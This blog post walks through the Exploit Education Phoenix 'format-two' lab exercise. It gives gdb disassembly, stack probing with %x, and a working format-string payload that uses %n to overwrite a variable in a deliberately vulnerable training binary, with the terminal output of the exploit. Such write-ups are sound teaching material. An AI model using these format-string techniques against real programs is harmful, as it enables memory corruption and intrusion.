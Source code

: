 ```yaml
---
layout: post
title: Format Two Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand format-two exercise - format string vulnerability with learning resources.
comments: true
---
```


## Previous Writeup: 

1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)
5. [Stack Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/28/exploit-education-stack-four-exercise-writeup.html)
6. [Stack Five Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/04/exploit-education-stack-five-exercise-writeup.html)
7. [Stack Six Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/26/exploit-education-stack-six-exercise-writeup.html)
8. [Format Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/10/exploit-education-format-zero-exercise-writeup.html)
9. [Format One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/31/exploit-education-format-one-exercise-writeup.html)

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

## Quick Overview

Similar to [Format One Writeup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/31/exploit-education-format-one-exercise-writeup.html), Format Two exercise motives are smashing the stack, overwrite arbitrary memory address or variable. However, this Format Two challenge revolves around [`Format String Vulnerability`](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/) and quit challenging when exploiting in 64-bit architecture binary.

## Disassemble

Disassembling the code will get you overall idea behind the format-two code, One can use `gdb ./format-two` to start debugging it in runtime.

1. `gdb ./format-two`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x0804852c <+0>:     lea    ecx,[esp+0x4]
   0x08048530 <+4>:     and    esp,0xfffffff0
   0x08048533 <+7>:     push   DWORD PTR [ecx-0x4]
   0x08048536 <+10>:    push   ebp
   0x08048537 <+11>:    mov    ebp,esp
   0x08048539 <+13>:    push   ebx
   0x0804853a <+14>:    push   ecx
   0x0804853b <+15>:    sub    esp,0x100
   0x08048541 <+21>:    mov    ebx,ecx
   0x08048543 <+23>:    sub    esp,0xc
   0x08048546 <+26>:    push   0x8048620
   0x0804854b <+31>:    call   0x8048330 <puts@plt>
   0x08048550 <+36>:    add    esp,0x10
   0x08048553 <+39>:    cmp    DWORD PTR [ebx],0x1
   0x08048556 <+42>:    jle    0x80485a3 <main+119>
   0x08048558 <+44>:    sub    esp,0x4
   0x0804855b <+47>:    push   0x100
   0x08048560 <+52>:    push   0x0
   0x08048562 <+54>:    lea    eax,[ebp-0x108]
   0x08048568 <+60>:    push   eax
   0x08048569 <+61>:    call   0x8048350 <memset@plt>
   0x0804856e <+66>:    add    esp,0x10
   0x08048571 <+69>:    mov    eax,DWORD PTR [ebx+0x4]
   0x08048574 <+72>:    add    eax,0x4
   0x08048577 <+75>:    mov    eax,DWORD PTR [eax]
   0x08048579 <+77>:    sub    esp,0x4
   0x0804857c <+80>:    push   0x100
   0x08048581 <+85>:    push   eax
   0x08048582 <+86>:    lea    eax,[ebp-0x108]
   0x08048588 <+92>:    push   eax
   0x08048589 <+93>:    call   0x8048340 <strncpy@plt>
   0x0804858e <+98>:    add    esp,0x10
   0x08048591 <+101>:   sub    esp,0xc
   0x08048594 <+104>:   lea    eax,[ebp-0x108]
   0x0804859a <+110>:   push   eax
   0x0804859b <+111>:   call   0x8048515 <bounce>
   0x080485a0 <+116>:   add    esp,0x10
   0x080485a3 <+119>:   mov    eax,ds:0x8049868
   0x080485a8 <+124>:   test   eax,eax
   0x080485aa <+126>:   je     0x80485be <main+146>
   0x080485ac <+128>:   sub    esp,0xc
   0x080485af <+131>:   push   0x804866c
   0x080485b4 <+136>:   call   0x8048330 <puts@plt>
   0x080485b9 <+141>:   add    esp,0x10
   0x080485bc <+144>:   jmp    0x80485ce <main+162>
   0x080485be <+146>:   sub    esp,0xc
   0x080485c1 <+149>:   push   0x80486ab
   0x080485c6 <+154>:   call   0x8048330 <puts@plt>
   0x080485cb <+159>:   add    esp,0x10
   0x080485ce <+162>:   sub    esp,0xc
   0x080485d1 <+165>:   push   0x0
   0x080485d3 <+167>:   call   0x8048360 <exit@plt>
```

Before taking a look at the code, if you disassembled the format-two using gdb to view the assembly instruction, you may notice the puts, fgets, sprintf function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/format-two, brought to you by https://exploit.education` message via Puts (aka printf) method
2. If the program receives an argument from the command line (i.e., argc is greater than 1), it initializes a character array "buf" with size 256 and sets all its values to zero using "memset" function.
3. It then copies the first argument passed (i.e., argv[1]) into the "buf" array using "strncpy" function. If the length of the argument exceeds the size of the buffer (256), it will be truncated.
4. The program then calls the "bounce" function with the "buf" array as an argument.
5. If the "changeme" variable is not zero, it prints "Well done, the 'changeme' variable has been changed correctly!" to the standard output.
6. If the "changeme" variable is zero, it prints "Better luck next time!" to the standard output.
7. The program exits with status code 0.

## Memory Allocation - Exploit Strategy

 If you take closer look at the memory allocation, `changeme` variable it's placed on the stack before `buffer` char array. There is no way you could overflow buffer overflow variable and overwrite `changeme` variable. However, introducing `%n` format modifier string can perform this magic by overwriting the address using `format string vulnerability`. 

 Our first step is to print "AAAA" temporarily and find the padding where it gets stored in the stack memory. We can start our exploration with couple of %x which helps in printing the address of the stack,
 
```shell
user@phoenix-amd64:/opt/phoenix/i486$ /opt/phoenix/i486/format-two $'AAAA%x.%x.\n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAffffd8ca.100.
Better luck next time!
```
Our experiment continues untill we find `AAAA` or 41414141 in the stack and eventually we come to know that it occurs at the 12th padding,

```shell
user@phoenix-amd64:/opt/phoenix/i486$ /opt/phoenix/i486/format-two $'AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAffffd8a7.100.0.f7f84b67.ffffd700.ffffd6e8.80485a0.ffffd5e0.ffffd8a7.100.3e8.41414141.252e7825.78252e78
Better luck next time!
```

Now that we found the padding, it's time to find the exact memory address of `changeme` variable. For 64-bit binary `format-two` it should be `0x600af0` and 32-bit binary should be `0x08049868`. While performing the exploit, I personally found 64-bit arch challenging due to few reasons discussed in the next section.

So, let's come up with a payload for 32-bit arch format-two binary first,

```shell
$'\x08\x04\x98\x68%x %x %x %x %x %x %x %x %x %x %x %n \n'
```

However, if you take a closer look, most AT&T and Intel system uses [little endian system](https://en.wikipedia.org/wiki/Endianness). So, we might need to rewrite the address in reverse order.

```shell
$'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n'
```

## Challenge faced while exploiting 64-bit binary

As mentioned above while going through memory address of `changeme` variable in the stack of 64-bit binary should be `0x600af0` and it contains unreasonable characters 😥 - `\x00` and  `\0a` null character & new line terminator which is interpreted by the `strncpy` function and completely terminates the argument while copying to the buffer.

However, there might be better strategy to overcome this issue by altering environment variables that may push the address or placing the address to the end of the string in payload.

## Exploit

Now, our strategy should be,

1. Input `format string` as `\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n`
2. Now, `printf` overwrites the `changeme` using random address from stack.

```shell
user@phoenix-amd64:/opt/phoenix/i486$ /opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
h�ffffd8ac 100 0 f7f84b67 ffffd700 ffffd6e8 80485a0 ffffd5e0 ffffd8ac 100 3e8
Well done, the 'changeme' variable has been changed correctly!
```

There you go! 🎉 You've officially `pwned` and you may eventually gain code execution in upcoming exercises 🪲

![buffer-overflow-pride](/assets/media/elementary-sherlock.jpg)

## Source and Reference:

1. Format Two Exercise: [Exploit Education](https://exploit.education/phoenix/format-two/)


## Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
